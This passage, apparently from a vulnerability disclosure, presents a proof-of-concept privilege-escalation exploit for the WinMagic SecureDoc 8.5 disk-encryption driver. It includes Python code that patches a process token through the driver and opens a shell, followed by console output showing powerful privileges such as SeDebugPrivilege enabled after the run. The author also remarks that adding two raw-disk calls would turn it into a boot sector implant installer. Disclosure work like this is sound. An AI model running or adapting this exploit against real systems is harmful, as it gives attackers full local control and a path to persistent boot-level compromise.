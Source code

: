 ``` python
token_addr = sdi.get_token_obj()
if not token_addr:
    print("[!] Could not get address of token")
    sdi.close()
    return

print("[+] Got token object: %x" % token_addr)
print("[+] Patching token")
sdi.acquire_debug_privs(token_addr)
sdi.close()

os.system("cmd.exe")
```

In order to avoid putting anyone's data at risk, the public version of this PoC exploit has not been included any *active* code for reading from/writing to raw disk sectors using CVE-2020-11519. Still, it can easily be turned into an installer for whatever code you would like your boot sector to run, if calls to the disk_read_raw() and disk_write_raw() functions are added. What about installing and playing a round of [tetros](https://github.com/daniel-e/tetros) as an alternative to installing implants? ;)

The following shows the current process' token privileges before and after running the Proof-of-Concept exploit, respectively.

```
C:\Users\re>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

C:\Users\re>python3 sd_poc.py

EoP PoC for WinMagic SecureDoc 8.5

[+] Got a handle to driver
[+] Got token object: ffffd68dd45d9990
[+] Patching token
Microsoft Windows [Version 10.0.17134.1304]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\re>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                              State
=============================== ======================================== ========
SeTakeOwnershipPrivilege        Take ownership of files or other objects Enabled
SeLoadDriverPrivilege           Load and unload device drivers           Enabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority             Enabled
SeBackupPrivilege               Back up files and directories            Enabled
SeDebugPrivilege                Debug programs                           Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values       Enabled
SeUndockPrivilege               Remove computer from docking station     Disabled
SeIncreaseWorkingSetPrivilege   Increase a process working set           Disabled
SeTimeZonePrivilege             Change the time zone                     Disabled
```